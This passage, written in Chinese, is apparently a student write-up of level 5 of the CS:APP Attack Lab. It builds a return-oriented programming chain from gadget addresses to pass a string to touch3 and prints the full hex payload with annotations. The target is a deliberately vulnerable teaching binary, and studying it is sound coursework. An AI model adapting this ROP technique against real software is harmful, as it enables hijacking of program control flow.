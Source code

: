 ```c
69 f4 da 55 00 00 00 00
90 1a 40 00 00 00 00 00
b2 18 40 00 00 00 00 00
```

### level5

Level5官方pdf一上来就直接劝退：你如果有其他要紧事，就别做这题了，才5分…… 不过想来会很有趣，让我们一起来做这道题。
本题的目的：
- 把字符串的十六进制（35 39 62 39 39 37 66 61）的起始地址传送到%rdi
- 调用touch3
注意到我们不可能再用地址来索引字串起始地址，因此使用栈顶地址+偏移量来索引，所以整体思路如下：
1. 获取%rsp地址，传送到%rdi
2. 获取字符串偏移值，传送到某个寄存器如%rsi
3. %rdi + %rsi表示字符串首地址，传输到%rdi，即lea (%rdi, %rsi, 1), %rdi
4. 调用touch3

关键问题与对应解决如下
- 没有直接可以调用的movq %rsp, %rdi，但有movq %rsp, %rax.
- 我们凑不到lea (%rdi, %rsi, 1), %rdi的指令，但我们恰好有lea (%rdi, %rsi, 1), %rax的指令 48 8d 04 37，之后再移动至%rdi
- 注意初始存的%rsp的值，对应的是test栈帧中存的放回地址的+0x8.

所以总体解决方案如下
```c
1. movq %rsp, %rax    // 48 89 e0   0x401a06  注意之后每一个都有个返回
2. movq %rax, %rdi    // 48 89 c7   0x4019c5
3. 在缓冲区存放string偏移量，并popq %rax    // 58   0x4019ab
4. movl %eax, %edx    // 89 c2    0x4019dd
5. movl %edx, %ecx    // 89 d1    0x401a70  注意到这里后面还有一个91的指令才到c3，不过不会对我们造成影响
6. movl %ecx, %esi    // 89 ce    0x401a13
7. lea (%rdi, %rsi, 1), %rax      // 48 8d 04 37    0x4019d6
8. movq %rax,%rdi     // 48 89 c7   0x4019c5
```

于是我们可以生成我们的代码了
```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00     // 进入0x401a06执行movq %rsp, %rax，之后返回在下一条指令
c5 19 40 00 00 00 00 00     // 进入0x4019c5执行movq %rax, %rdi，**初始rsp也在这里**
ab 19 40 00 00 00 00 00     // 进入0x4019ab执行popq %rax，弹出我们的string偏移量后再返回
48 00 00 00 00 00 00 00     // 我们的string偏移量，注意我们存rsp的位置（此处+0x10）
dd 19 40 00 00 00 00 00     // 进入0x4019dd执行movl %eax, %edx，之后返回
70 1a 40 00 00 00 00 00     // 进入0x401a70执行movl %edx, %ecx，之后返回（此处+0x20）
13 1a 40 00 00 00 00 00     // 进入0x401a13执行movl %ecx, %esi，之后返回
d6 19 40 00 00 00 00 00     // 进入0x4019d6执行lea (%rdi, %rsi, 1), %rax，之后返回（此处+0x30）
c5 19 40 00 00 00 00 00     // 进入0x4019c5执行movq %rax,%rdi，之后返回+0x8
fa 18 40 00 00 00 00 00     // 进入0x4018fa执行touch3 注意这里不是callq所以没有压栈，此时（此处+0x40）
35 39 62 39 39 37 66 61     // 我们的string（此处+0x48，所以得到偏移量为48）
```
